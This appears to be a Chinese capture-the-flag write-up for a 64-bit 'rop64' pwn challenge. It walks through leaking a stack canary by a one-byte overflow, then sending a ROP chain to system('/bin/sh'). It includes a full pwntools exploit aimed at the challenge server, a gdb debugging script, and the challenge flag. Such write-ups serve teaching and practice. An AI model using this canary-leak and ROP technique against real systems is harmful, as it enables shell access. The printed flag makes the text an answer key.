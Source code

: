 # rop64

rop64比rop32简单是怎么回事？我被一个细节卡了几个小时又是怎么回事？

-   Arch:     amd64-64-little
    <Br>RELRO:    Partial RELRO
    <bR>Stack:    Canary found
    <br>NX:       NX enabled
    <Br>PIE:      No PIE (0x400000)

canary不是很妙，要看看程序内部有没有办法绕过canary。

![vuln](../images/vuln.png)

我最开始被这里卡了一下。我以为两个read会接着读取，比如第一次read读取了1个字符，第二个read就从第二个字符对应的指针开始读取。但是我错了。举个例子，第一次读取a，第二次读取b，printf输出的结果是b而不是ab。那应该很简单了，第一次read溢出到canary的\0字符让printf把canary一起打印出来，第二次read带上canary执行rop链。先把最终成功的exp放出来。

```python
from pwn import *
payload=b'a'*0x29
p=remote("124.223.158.81",27004)
pop_rdi=0x00000000004011de 
bin_sh=0x0000000000404058
system_addr=0x00401284
p.sendafter("Go Go Go!!!\n",payload)
p.recvuntil(payload)
canary=u64(p.recv(7).rjust(8,b'\x00'))
p.recv()
payload=b'a'*0x28+p64(canary)+b'a'*8+p64(pop_rdi)+p64(bin_sh)+p64(system_addr)
p.send(payload)
p.interactive()
```

注意第一个payload。虽然在上面的截图中可以算出local_38与canary的距离为0x38-0x10=0x28,但是我们需要发送0x29个a，因为这个距离包括了\0，如果只发送0x28个a是不会覆盖掉\0了，也就没办法打印出canary了。或者payload使用0x28个a，然后发送时使用sendline。因为sendline会在发送的payload末尾加上\n，相当于发送了0x29个字符，也能覆盖掉\0打印出canary。这也意味着canary只有7位，recv只用接收7位。

最后是“简单”的rop链。需要的传参gadget程序里可以直接找到，就在gadget函数下。不知道ida是不是这样，但ghidra玩家们注意ghidra默认不会反编译完整gadget剩下的部分，所以需要手动选择未被编译的部分然后右键进行编译。有个很坑的地方是啥呢，这道题的system_addr不能用system的plt入口表，要用main中调用system的那段指令。我真的疑惑了啊，我也不知道为什么，调试出来的。附调试脚本。

```python
from pwn import *
p=process("gdb")
last_command=''
def communicate(command,prefix="(gdb)"):
    global last_command
    last_command=command
    p.sendlineafter(prefix,command)
def print_content(line):
    global last_command
    content=p.recvlines(line,timeout=0.5)
    for i in content:
        print(f"{last_command}:{i.decode()}")
def check_stack(step):
    for i in range(step):
        communicate("s")
        communicate("i s")
        print_content(4)
def check_registers():
    communicate("i r")
    print_content(15)
pop_rdi=0x00000000004011de 
bin_sh=0x0000000000404058
system_addr=0x4040b4
communicate("file ./pwn")
communicate('b *0x00401271')
communicate('run')
payload=b'a'*0x29
communicate(payload,"Go Go Go!!!\n")
p.recvuntil(payload)
canary=u64(p.recv(7).rjust(8,b'\x00'))
p.recv()
payload=b'a'*0x28+p64(canary)+b'a'*8+p64(pop_rdi)+p64(bin_sh)+p64(system_addr)
p.send(payload)
check_stack(5)
check_registers()
```

花了很多时间在pwntools怎么和gdb交互，pwntools自带的gdb模块我没法用。也尝试过搜subprocess，都不行。最后发现直接process gdb就行了……浪费我几个小时。从这个调试脚本我发现pop_rdi成功执行，bin_sh成功传入rdi，那只有可能是system_addr有问题了。还记得main函数调用过system吗，直接把调用的地址抄下来就是了。这题怎么这么怪，我也是笨，跟这个地址死磕了几个小时，plt表，plt表上一个地址，got表（很难揣测试这个地址的我的精神状态）这些都试了，就是没想到变通一下。

- ### Flag
  > moectf{m0m_1_c4n_d0_20p_4nd_8yp455_c4n42y_0n_4_64817_m4ch1n3}